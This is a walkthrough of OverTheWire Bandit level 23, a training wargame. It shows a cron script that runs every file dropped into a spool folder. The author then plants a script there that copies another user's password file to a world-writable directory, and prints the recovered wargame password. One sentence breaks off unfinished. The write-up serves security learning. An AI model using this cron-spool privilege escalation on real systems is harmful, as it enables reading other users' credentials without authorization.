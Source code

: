 # Level 23

Connect to the server as `bandit23` with the password.

> A program is running automatically at regular intervals from cron, the
> time-based job scheduler. Look in `/etc/cron.d/` for the configuration and
> see what command is being executed.

Another cron job. Oh boy.

    bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
    @reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
    * * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
    bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh

```bash
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        timeout -s 9 60 ./$i
        rm -f ./$i
    fi
done
```

So here we have a little bash script that executes and deletes scripts in the folder `/var/spool/bandit24`. Let's take a look at this folder.

    bandit23@bandit:~$ ls -lah /var/spool/bandit24/
    total 1.4M
    drwxrwx--- 2 bandit24 bandit23 1.3M Oct  7 13:50 .
    drwxr-xr-x 5 root     root     4.0K Oct 16  2018 ..

There is something funky going on here – why does the folder have a reported size of 1.3 megabytes despite being empty?

But in any case, it should be possible for me 

    bandit23@bandit:~$ mkdir /tmp/20983r7ufiwhjcn30
    bandit23@bandit:~$ cd /tmp/20983r7ufiwhjcn30
    bandit23@bandit:/tmp/20983r7ufiwhjcn30$ cat > 32hjbkj2bj32jhb2.sh
    #!/bin/bash
    cat /etc/bandit_pass/bandit24 > /tmp/20983r7ufiwhjcn30/out/pass
    bandit23@bandit:/tmp/20983r7ufiwhjcn30$ mkdir out
    bandit23@bandit:/tmp/20983r7ufiwhjcn30$ chmod a+w out
    bandit23@bandit:/tmp/20983r7ufiwhjcn30$ chmod a+x 32hjbkj2bj32jhb2.sh
    bandit23@bandit:/tmp/20983r7ufiwhjcn30$ cp 32hjbkj2bj32jhb2.sh /var/spool/bandit24

I had to wait a little bit, but eventually, it was executed.

    bandit23@bandit:/tmp/20983r7ufiwhjcn30$ ls out
    pass
    bandit23@bandit:/tmp/20983r7ufiwhjcn30$ cat out/pass
    UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ


